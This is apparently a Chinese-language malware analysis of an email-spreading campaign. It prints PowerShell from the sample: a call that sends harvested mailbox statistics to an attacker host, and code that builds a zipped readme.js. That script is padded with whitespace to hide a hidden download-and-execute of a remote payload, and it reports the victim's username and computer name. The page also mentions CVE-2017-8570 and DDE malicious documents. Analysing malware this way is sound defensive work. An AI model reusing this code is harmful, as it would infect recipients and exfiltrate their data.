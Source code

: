 ```c#
```

在mail_code变量中定义邮件攻击相关代码吗，主要作用是：

```powershell
# 发送获取的邮箱相关信息 链接返回404 
(New-object net.webclient).downloadstring("http://d.ackng.com/report.json?type=mail&u=$muser&c1="+$contacts.count+"&c2="+$sent_tos.count+"&c3="+$recv_froms.count)
```

生成包含恶意脚本的JS文件 (readme.js)

```powershell
function Add-Zip
{
    param([string]$zipfilename)
    if(-not (test-path($zipfilename)))
    {
        set-content $zipfilename ("PK" + [char]5 + [char]6 + ("$([char]0)" * 18))
        (dir $zipfilename).IsReadOnly = $false  
    }
	
    $shellApplication = new-object -com shell.application
    $zipPackage = $shellApplication.NameSpace($zipfilename)
    
	foreach($file in $input) 
    { 
            $zipPackage.CopyHere($file.FullName)
            Start-sleep -milliseconds 500
    }
}


$att_js=$env:tmp+"\readme.js"
$js_code='var cmd =new ActiveXObject("WScript.Shell");var cmdstr="cmd /c start /b notepad "+WScript.ScriptFullName+" & powershell -w hidden IEx(New-Object Net.WebClient).DownLoadString(''THEURL/7p.php?VER*mail_js*%username%*%computername%*''+[Environment]::OSVersion.version.Major);bpu (''THEURL/mail.jsp?js_VER'')";cmd.run(cmdstr,0,1);'.replace("THEURL",$base_url).replace("VER",$version)


# JS文件长度混淆
($js_text+"`r`n"*(2000+(get-random)%1000)+" "*(102+(get-random)%100)+$js_code.trim())|out-file $att_js
$att_zip_name="readme.zip"
$att_zip=$env:tmp+"\$att_zip_name"
dir $att_js|Add-Zip $att_zip
```

生成包含针对CVE-2017-8570漏洞与微软OfficeDDE（动态数据交换）攻击的恶意UTF文档（之前叫作urgent.doc 现在叫 readme.doc）

文档打开后的截图：
